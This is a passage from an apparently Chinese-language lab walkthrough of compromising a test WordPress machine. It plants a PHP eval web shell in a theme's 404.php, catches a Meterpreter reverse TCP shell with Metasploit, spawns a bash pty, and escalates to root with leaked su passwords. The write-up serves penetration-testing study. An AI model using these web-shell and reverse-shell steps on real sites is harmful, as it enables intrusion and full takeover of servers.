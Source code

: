 ```
else { eval($b); 
}
die();
```

将 shell 内容放到 <?php  ?> 标签中，然后复制到 404.php 最下方

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yegccRMPgIc0IqkwkLFUhFt6R67q7rpibjx6NIicMp7CJxrR1e3LqPX6hg/640?wx_fmt=png)

msf 监听 9999 端口

```
use exploit/multi/handler
set payload php/meterpreter/reverse\_tcp
set lhost 192.168.50.131
set lport 9999
exploit
```

访问 https://192.168.50.78/wordpress/wp-content/themes/Kratos-

2/404.php   这个 404 页面

成功反弹 shell，使用 python 反弹终端

python -c 'import 

pty;pty.spawn("/bin/bash")'

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yeI8iaBRgq8YoM1y7LqLvSKicLCV6QhabQP2iaZdQrASp7PvN5EaChsg0OA/640?wx_fmt=png)

**2.5、提权**

输入 su

输入密码 SuperSecretPassword

成功提权至 root

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yeiabfYMAKXeC6oZEXDIEYL2rAmIfsia0MJSjaI3RnBPNEEJrOiaBLHzglg/640?wx_fmt=png)

本来还查看了 / etc/passwd，发现有用户 candycane，输入密码 password，切换了用户

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2ye7GdPaPvcUiawYc3C9G0rN63g6liaX0qAj4eqw2uGricTKCG0fFkjBTibEw/640?wx_fmt=png)

再从 candycane 提权到 root

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yeiaV77sPibJPicssEQdcVib6GiaiamtvQltNLTInxMe3IF9jaCNdeYBm2Q9qw/640?wx_fmt=png)

没想到直接从 daemon 提权至 root 成功了。。。

  

  

  

总结

**遇到的坑：**
